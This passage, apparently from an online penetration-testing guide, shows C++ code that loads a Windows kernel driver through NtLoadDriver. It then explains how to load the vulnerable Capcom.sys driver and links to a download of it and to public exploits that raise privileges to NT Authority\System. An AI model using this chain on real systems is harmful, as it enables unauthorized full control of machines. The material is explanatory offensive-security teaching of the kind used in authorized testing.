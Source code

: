 ```c
    *(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
    *(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

    RtlInitUnicodeString(&pPath, pPathSource);
    RtlInitUnicodeString(&pPathReg, pPathSourceReg);
    st1 = NtLoadDriver(&pPathReg);
    std::cout << "[+] value of st1: " << st1 << "\n";
    if (st1 == ERROR_SUCCESS) {
        std::cout << "[+] Driver Loaded as Kernel..\n";
        std::cout << "[+] Press [ENTER] to unload driver\n";
    }

    getchar();
    st1 = NtUnloadDriver(&pPathReg);
    if (st1 == ERROR_SUCCESS) {
        std::cout << "[+] Driver unloaded from Kernel..\n";
        std::cout << "[+] Press [ENTER] to exit\n";
        getchar();
    }

    return 0;
}
```

Once the above code is compiled and executed, we can see that our malicious `Capcom.sys` driver gets loaded onto the victim system:

![](../../.gitbook/assets/a11.png)

Download: [Capcom.sys - 10KB](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LTyWsUdKa48PyMRyZ4I%2F-LTyZ9IkoofuWRxlNpUG%2FCapcom.sys?alt=media&token=e4417fb3-f2fd-42ef-9000-d410bc6ceb54)

**No it's time to abuse the loaded driver to execute arbitrary code.**

You can download exploits from [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom) and [https://github.com/zerosum0x0/puppetstrings](https://github.com/zerosum0x0/puppetstrings) and execute it on the system to elevate our privileges to `NT Authority\System`:

![](../../.gitbook/assets/a12.png)

### Auto

You can use [https://github.com/TarlogicSecurity/EoPLoadDriver/](https://github.com/TarlogicSecurity/EoPLoadDriver/) to **automatically enable** the **privilege**, **create** the **registry key** under HKEY\_CURRENT\_USER and **execute NTLoadDriver** indicating the registry key that you want to create and the path to the driver:

![](../../.gitbook/assets/image%20%2845%29.png)

Then, you will need to download a **Capcom.sys** exploit and use it to escalate privileges.

## References <a id="references"></a>
